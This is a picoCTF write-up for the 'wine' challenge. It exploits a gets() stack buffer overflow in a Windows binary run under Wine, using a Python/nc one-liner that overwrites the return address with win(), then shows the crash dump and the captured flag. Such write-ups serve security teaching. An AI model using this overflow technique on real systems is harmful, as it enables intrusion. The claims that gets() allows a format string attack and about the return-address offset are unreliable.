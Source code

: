 # wine : Binary Exploitation

Challenge best paired with wine.  
I love windows. Checkout my [program](vuln.zip) running on a linux box.  
Unzip the archive with the password `picoctf` and connect with it using `nc saturn.picoctf.net 55701`

Author : Neel Bhavsar

# Solution

For now, try running it.
```
$ nc saturn.picoctf.net 55701
Give me a string!
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
The service accepts any input.

When we unzip `vuln.zip`, we'll find `vuln.c` and `vuln.exe` inside.  
Check the source code.
```c vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void win(){
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("flag.txt not found in current directory.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

void vuln()
{
  printf("Give me a string!\n");
  char buf[128];
  gets(buf);
}

int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);
  vuln();
  return 0;
}
```
This code reveals the existence of win(). Additionally, it is apparent that the `gets(buf);` in vuln() allows format string attack and buffer overflow.  
```
$ file vuln.exe 
vuln.exe: PE32 executable (console) Intel 80386, for MS Windows
```
This file is a 32-bit binary.  
We just need to trigger win() via a buffer overflow.  
Since the return address is located 8bytes after the end of buf, the address of win() should be written at the offset of 12 bytes from the end of buf.
```
$ objdump -M intel -d vuln.exe | grep win 
00401530 <_win>:
  401551:       75 18                   jne    40156b <_win+0x3b>
```
The address of win() is at 0x401530.  
Thus, the payload is as shown below:
```
$ (python3 -c 'import sys; sys.stdout.write("a"*140)'; echo -e '\x30\x15\x40') | nc saturn.picoctf.net 55701
```
Execute it.
```
$ (python3 -c 'import sys; sys.stdout.write("a"*140)'; echo -e '\x30\x15\x40') | nc saturn.picoctf.net 55701
Give me a string!
picoCTF{Un_v3rr3_d3_v1n_2ef42747}
Unhandled exception: page fault on read access to 0x7fec39e0 in 32-bit code (0x7fec39e0).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:006b GS:0063
 EIP:7fec39e0 ESP:0064fe84 EBP:61616161 EFLAGS:00010206(  R- --  I   - -P- )
 EAX:00000000 EBX:00230e78 ECX:0064fe14 EDX:7fec48f4
 ESI:00000005 EDI:0021d690
Stack dump:
0x0064fe84:  00000000 00000004 00000000 7b432ecc
0x0064fe94:  00230e78 0064ff28 00401386 00000002
0x0064fea4:  00230e70 006d0da0 7bcc4625 00000004
0x0064feb4:  00000008 00230e70 0021d690 0199a584
0x0064fec4:  3a25148b 00000000 00000000 00000000
0x0064fed4:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x7fec39e0 (0x61616161)
0x7fec39e0: hlt
Modules:
Module  Address                 Debug info      Name (5 modules)
PE        400000-  44b000       Deferred        vuln
PE      7b020000-7b023000       Deferred        kernelbase
PE      7b420000-7b5db000       Deferred        kernel32
PE      7bc30000-7bc34000       Deferred        ntdll
PE      7fe10000-7fe14000       Deferred        msvcrt
Threads:
process  tid      prio (all id:s are in hex)
00000008 (D) Z:\challenge\vuln.exe
        00000009    0 <==
0000000c services.exe
        0000000e    0
        0000000d    0
00000012 explorer.exe
        00000013    0
System information:
    Wine build: wine-5.0 (Ubuntu 5.0-3ubuntu1)
    Platform: i386
    Version: Windows Server 2008 R2
    Host system: Linux
    Host version: 6.5.0-1023-aws
```

Get the flag!

`picoCTF{Un_v3rr3_d3_v1n_2ef42747}`
